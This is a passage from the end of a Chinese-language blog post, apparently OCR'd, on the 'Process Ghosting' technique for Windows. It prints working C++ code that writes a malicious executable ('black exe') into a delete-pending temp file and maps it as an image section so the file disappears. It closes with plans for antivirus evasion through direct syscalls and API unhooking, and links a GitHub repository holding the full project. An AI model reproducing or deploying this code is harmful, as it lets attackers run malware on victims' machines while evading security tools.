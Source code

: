         if (status != STATUS_SUCCESS) {        std::cerr << "NtCreateThreadEx failed: " << GetLastError() << std::endl;        return false;    }  
        return true;}

### make_section_from_delete_pending_file

其中，设置temp文件为删除状态，并将black exe的内存映射到temp文件。

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    HANDLE make_section_from_delete_pending_file(wchar_t* filePath, BYTE* payladBuf, DWORD payloadSize) {    HANDLE hDelFile = open_file(filePath);//打开temp文件    NTSTATUS status = 0;    IO_STATUS_BLOCK status_block = { 0 };  
        FILE_DISPOSITION_INFORMATION info = { 0 };    info.DeleteFile = TRUE;    status = NtSetInformationFile(hDelFile, &status_block, &info, sizeof(info), FileDispositionInformation);//改变文件对象信息，将设置为请求删除文件状态。    if (!NT_SUCCESS(status)) {        cout << "Setting information failed: " << hex << status << "\n";        return INVALID_HANDLE_VALUE;    }    LARGE_INTEGER ByteOffset = { 0 };  
        status = NtWriteFile(        hDelFile,        NULL,        NULL,        NULL,        &status_block,        payladBuf,        payloadSize,        &ByteOffset,        NULL    );//将传入的black exe的内存地址写入temp文件    if (!NT_SUCCESS(status)) {        DWORD err = GetLastError();        cout << "Failed writing payload! Error: " << hex << err << endl;        return INVALID_HANDLE_VALUE;    }    HANDLE hSection = nullptr;    status = NtCreateSection(&hSection,        SECTION_ALL_ACCESS,        NULL,        0,        PAGE_READONLY,        SEC_IMAGE,        hDelFile    );//为temp文件创建section    if (status != STATUS_SUCCESS) {        cerr << "NtCreateSection failed: " << hex << status << endl;        return INVALID_HANDLE_VALUE;    }    NtClose(hDelFile);//关闭handle，同时temp文件消失    hDelFile = nullptr;  
        return hSection;}  
    

## 后续研究

在整个项目中，需要用到NtCreateProcessEx和NtCreateThreadEx这样的敏感函数，通过对这两个函数进行systemcall，使用直接系统调用的方式来进行免杀处理。并使用unhook
api，来解NtReadVirtualMemory、NtAllocateVirtualMemory、NtWriteVirtualMemory这几个对内存操作的nt函数hook。

具体代码项目地址：https://github.com/knightswd/ProcessGhosting

### References

`[1]` FILE_SUPERSEDE:  _https://docs.microsoft.com/en-
us/windows/win32/api/winternl/nf-winternl-ntcreatefile_  
`[2]` CREATE_ALWAYS:  _https://docs.microsoft.com/en-
us/windows/win32/api/fileapi/nf-fileapi-createfilew_  
`[3]` FILE_DELETE_ON_CLOSE:  _https://docs.microsoft.com/en-
us/windows/win32/api/winternl/nf-winternl-ntcreatefile_  
`[4]` FILE_FLAG_DELETE_ON_CLOSE:  _https://docs.microsoft.com/en-
us/windows/win32/api/fileapi/nf-fileapi-createfilew_  
`[5]` NtSetInformationFile:  _https://docs.microsoft.com/en-us/windows-
hardware/drivers/ddi/ntifs/nf-ntifs-ntsetinformationfile_  
`[6]` FileDispositionInformation:  _https://docs.microsoft.com/en-us/windows-
hardware/drivers/ddi/ntifs/nf-ntifs-ntsetinformationfile_  
`[7]` FILE_DISPOSITION_INFORMATION:  _https://docs.microsoft.com/en-
us/windows-hardware/drivers/ddi/ntddk/ns-ntddk-_file_disposition_information_  
`[8]` PsSetCreateProcessNotifyRoutineEx:  _https://docs.microsoft.com/en-
us/windows-hardware/drivers/ddi/ntddk/nf-ntddk-
pssetcreateprocessnotifyroutineex_  
`[9]` PsSetCreateThreadNotifyRoutineEx:  _https://docs.microsoft.com/en-
us/windows-hardware/drivers/ddi/ntddk/nf-ntddk-
pssetcreatethreadnotifyroutineex_
